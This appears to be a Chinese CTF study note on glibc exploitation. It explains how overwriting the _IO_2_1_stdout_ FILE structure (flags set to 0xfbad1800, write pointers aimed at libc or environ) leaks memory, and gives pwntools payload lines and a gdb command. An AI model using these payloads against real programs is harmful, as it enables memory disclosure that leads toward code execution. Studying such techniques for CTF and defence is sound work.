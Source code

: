 ![](assets/Pasted%20image%2020240403163801-20240410143028-oiquppd.png)

### 利用 IO_2_1_stdout 泄露地址(IO任意地址读取)

只要能改变 _IO_2_1_stdout_​ 就可以 无论是 劫持elf_bss 上的 std指针

还是 任意地址申请到 _IO_2_1_stdout_​

```gdb
telescope    &_IO_2_1_stdout_
```

![](assets/Pasted%20image%2020240403164020-20240410143028-0dtx0kr.png)

1. 首先我们要对IO流有一个大致的了解

在linux系统中的IO库中存在一个FILE文件流，一个用于描述文件的结构，而每个程序在启动时有三个文件流是自动打开的：stdin、stdout、stderr。其保存的位置在数据段中。

而结构体中最重要的元素就是flags和fileno，_fileno存储的是我们的文件描述符，对于某些情况或许我们要劫持_fileno才能达到我们的目的，而_flags则标志了该FILE的一些行为。

### payload(用于IO任意读写)

```python
p64(0xfbad1800) 修改flags为write

 有的payload 不一定行 多试几个


'''
flat([0x00000000fbad3887, 0, 0, 0, libc_addr + 0x206258, libc_addr + 0x206258 + 8, libc_addr + 0x206258 + 8, libc_addr + 0x206258 + 8]) + b'\n'

'''


pay = p64(0xFBAD1800) + p64(0) * 3 + p64(lake_addr_ptr) + p64(Length) # Length = lake_addr_ptr + len


environ = libc.sym['environ']
pay = p64(0xFBAD1800) + p64(0) * 3 + p64(environ) + p64(environ+8) # + 8 那就从 environ_ptr 里泄露 8 个字节



environ = libc.sym['environ']
```